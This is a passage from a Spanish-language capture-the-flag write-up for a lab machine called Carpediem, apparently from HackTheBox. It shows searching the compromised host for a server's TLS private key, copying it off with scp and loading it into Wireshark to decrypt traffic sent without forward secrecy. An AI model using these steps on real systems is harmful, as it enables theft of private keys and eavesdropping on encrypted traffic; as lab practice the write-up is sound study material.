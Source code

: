 y por lo visto esto se considera [inseguro](https://ciphersuite.info/cs/TLS_RSA_WITH_AES_256_CBC_SHA256/), porque no soporta [PFS](https://ciberseguridad.com/guias/prevencion-proteccion/perfect-forward-secrecy-pfs/) , por lo tanto si obtengo el voy a poderdescifrar el trafico.
Por lo tanto en la maquina victima buscare con find, todo lo que contenga la palabra backdrop, y encuentro key y crt
```bash
hflaccus@carpediem:/tmp$ find / -name *backdrop* 2>/dev/null
/etc/ssl/certs/backdrop.carpediem.htb.key
/etc/ssl/certs/backdrop.carpediem.htb.crt
/usr/share/icons/Humanity/apps/24/xfce4-backdrop.svg
/usr/share/icons/Humanity/apps/48/xfce4-backdrop.svg
/usr/share/icons/Humanity/apps/128/xfce4-backdrop.svg
```
por lo tanto ahora me transfiero los archivo a mi maquina
```bash
scp hflaccus@10.10.11.167:/etc/ssl/certs/backdrop\* .
```
![Certs](../assets/images-Carpediem/cert.png)

Ahora en wireshark, agrego el archivo `.key` 

![key](../assets/images-Carpediem/key.png)
